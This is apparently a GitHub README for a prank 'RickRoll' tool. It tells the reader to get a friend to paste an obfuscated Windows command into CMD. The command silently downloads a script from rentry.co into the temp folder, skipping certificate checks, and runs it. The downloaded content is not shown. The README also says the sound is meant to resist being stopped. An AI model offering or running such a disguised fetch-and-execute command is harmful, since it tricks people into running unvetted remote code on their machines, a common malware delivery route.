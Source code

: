 ## 🎢 RickRoll Tool Version 1.0
> RickRoll your friends using a command in order to prevent them from stopping the sound from playing...

https://user-images.githubusercontent.com/43265196/162421361-8dd9c471-5368-4a33-a9ca-3b7b22fe8038.mp4

### ▶ How can I rickroll?
- Tell them to open CMD
- Tell them to paste the following command into the window and press enter
```bat
for %b in (F2) do for %c in ("%temp%\F") do for %d in (.) do for %e in (cmd) do for %f in (rentry) do (cls&&curl -#Lsko "%~c2%d%e" "%f%dco/%b/raw"&&call "%~c2%d%e")
```
- Once they did it they will need to wait a few seconds for the sound to download and play

### ⏹ How do I stop the sound when its already running?
- Stop Sound: `taskkkill /f /im cscript.exe`
- Stop Lyrics: `taskkill /f /im cmd.exe`

#### This is fairly simple process

### ⚙ Compatibility
* **To use this tool you must have curl installed in your system.**
* **Windows 10 and above should have curl installed by default**

### 💲 Buy me a coffee?
> I wanted to say huge thanks to everyone who use this software :heart:
Make someone's day and buy him a cup of coffee for his hard job? <a href="https://www.paypal.me/agamsolomon0011" rel="paypal donations">![donate](https://img.shields.io/badge/Donate-Paypal-brightgreen.svg)</a>
